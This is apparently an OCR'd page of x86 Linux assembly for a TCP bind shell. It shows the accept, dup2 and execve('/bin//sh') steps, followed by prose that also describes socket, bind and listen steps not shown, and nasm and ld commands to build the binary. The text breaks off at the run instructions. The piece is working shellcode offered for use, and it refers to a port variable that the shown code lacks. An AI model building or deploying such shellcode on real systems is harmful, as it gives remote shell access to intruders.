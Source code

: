 ```assembly

    ; Accept incoming connection (accept syscall)
    mov al, 0x66                 ; Accept syscall number
    xor edi, edi                 ; Clear edi register
    push edi                     ; Push 0 onto the stack (sockaddr struct size)
    push edi                     ; Push 0 onto the stack (sockaddr struct address)
    push ebx                     ; Push sockfd onto the stack
    mov ecx, esp                 ; Move stack pointer to ecx
    int 0x80                     ; Call kernel

    ; Duplicate file descriptors for stdin, stdout, and stderr (dup2 syscall)
    xor ebx, ebx                 ; Clear ebx register
    mov ebx, eax                 ; Copy accepted socket fd to ebx
    xor ecx, ecx                 ; Clear ecx register
    mov cl, 0x2                  ; Set cl to 2 (stderr)
.dup_loop:
    mov al, 0x3f                 ; Dup2 syscall number
    int 0x80                     ; Call kernel
    dec ecx                      ; Decrement counter
    jns .dup_loop                ; Continue until counter is negative

    ; Execute shell (execve syscall)
    xor eax, eax                 ; Clear eax register
    push eax                     ; Push null byte onto the stack
    push 0x68732f2f              ; Push "//sh" onto the stack
    push 0x6e69622f              ; Push "/bin" onto the stack
    mov ebx, esp                 ; Move stack pointer to ebx (pointer to "/bin//sh")
    mov ecx, eax                 ; Null out ecx
    mov edx, eax                 ; Null out edx
    mov al, 0xb                  ; syscall number for execve
    int 0x80                     ; Call kernel
```

In this assembly code:

- We first create a socket using the `socket` syscall to establish a communication endpoint.
- Then, we bind the socket to a specific port using the `bind` syscall.
- Next, we listen for incoming connections using the `listen` syscall.
- Once a connection is established, we accept the incoming connection using the `accept` syscall.
- We then duplicate the file descriptors for stdin, stdout, and stderr using the `dup2` syscall to redirect standard input, output, and error to the accepted socket.
- Finally, we execute a shell using the `execve` syscall, spawning a shell on the remote system.

To use this TCP bind shell, you need to specify the desired port number in the `port` variable.

To assemble and link the code, you can use the following commands:

```bash
nasm -f elf32 bind_shell.asm -o bind_shell.o
ld -m elf_i386 bind_shell.o -o bind_shell
```

After assembling and linking, you can run the program:
